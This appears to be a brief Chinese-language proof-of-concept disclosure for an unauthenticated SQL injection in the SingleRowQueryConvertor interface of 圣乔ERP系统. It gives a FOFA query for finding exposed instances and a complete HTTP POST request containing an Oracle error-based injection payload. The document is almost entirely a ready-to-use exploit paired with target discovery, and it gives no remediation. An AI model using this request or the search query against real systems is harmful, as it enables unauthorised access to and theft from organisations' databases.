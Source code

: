 圣乔ERP系统 SingleRowQueryConvertor接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息
资产测绘：
FOFA：title="圣乔ERP系统"
测试：	


poc验证代码
POST /erp/dwr/call/plaincall/SingleRowQueryConvertor.queryForString.dwr HTTP/1.1
Host: 
Content-Type: text/plain
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0

callCount=1
page=/erp/dwr/test/SingleRowQueryConvertor
httpSessionId=
scriptSessionId=D528B0534A8BE018344AB2D54E02931D86
c0-scriptName=SingleRowQueryConvertor
c0-methodName=queryForString
c0-id=0
c0-param0=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (99=99) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(122)||CHR(118)||CHR(113)||CHR(62))) FROM DUAL)
c0-param1=Array:[]
batchId=0
